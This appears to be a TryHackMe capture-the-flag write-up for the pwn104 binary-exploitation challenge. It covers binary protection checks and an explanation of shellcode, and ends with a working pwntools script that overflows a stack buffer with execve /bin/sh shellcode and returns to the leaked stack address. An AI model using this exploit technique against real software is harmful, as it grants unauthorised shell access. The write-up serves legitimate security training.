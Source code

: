 ```yaml
---
title: "pwn103"
date: 2024-01-10
layout: "simple"
categories: [Binary exploitation]
tags: [Tryhackme]
image: https://i.ibb.co/cgYN2Kr/th-3134630742.jpg
---
```


## 104
### Introduction

First of all we are going to do some file checks, to see the binary protections and determine the file type

```
pwn104.pwn104: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60e0bab59b4e5412a1527ae562f5b8e58928a7cb, for GNU/Linux 3.2.0, not stripped
```

We can see that the binary is a 64 bit Least Significant Byte executable, in other words it uses little endian. The binary is dynamically linked to a LIBC and it is not stripped. 

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
we can also see the protections around it, you can refer back to pwn103 above to see what this protections mean.

So interesting enough we can see that under NX, it is unknown, this could potentialy mean that we can execute shellcode on the stack. Running the binary may confirm this 

```
I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 0x7ffe12e976e0
```
So what is shellcode? Shellcode is essentially machine code designed to be injected and executed as part of a larger software system. It's commonly used in exploits to achieve various goals, often to spawn a shell or grant unauthorized access to a system. Let's delve deeper into how shellcode works:
Anatomy of Shellcode:

    Assembly Instructions:
        Shellcode comprises low-level assembly instructions, usually handcrafted or generated by specialized tools like shellcraft or extracted from shellcode databases.
        These instructions are often minimal and aim to perform specific tasks such as spawning a shell (/bin/sh) or executing system commands.

    Functionality:
        The shellcode's primary function is to manipulate the program's flow or system resources to achieve a specific goal, like gaining unauthorized access or spawning a shell.
        Common shellcode tasks include modifying memory, calling system functions, or executing shell commands by taking advantage of vulnerabilities in the target program.

In an exploit scenario, shellcode is injected into a vulnerable program and usually occurs through buffer overflows or other vulnerabilities that allow arbitiary code execution. The shellcode is set to overwrite specific memory region, such as the return address or function pointers, to redirect the program flow. Once injected and executed, the shellcode's instructions start running within the context of the compromised program. The shellcode typically performs its predefined tasks, which could involve spawning a shell, granting escalated privileges, or executing specific commands.

### Exploit

So we can see that the program gives us some address so we can maybe grab that and this location could be where we can execute shellcode 

Next we are going to need shellcode, so there are two ways to get shellcode. One way being using shellcraft which is a tool which generates shellcode, the other way is using the shellcode database. 

Here i am going to get one from the database [shellstrom](http://shell-storm.org/shellcode/files/shellcode-603.html)

Smooth, next we need to fill the buffer which will allow us to execute shellcode. 

```
from pwn import *

p = process("./pwn104.pwn104")
#p = remote(thm_ip, 9004)


p.recvuntil(b'at ')
output = p.recv()
print(output)
bufferlocation = p64(int(output, 16))
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

payload = shellcode
payload += b'A' * (88 - len(shellcode))
payload += bufferlocation

p.sendline(payload)
p.interactive()
```
You can use also use shellcraft to create your payload.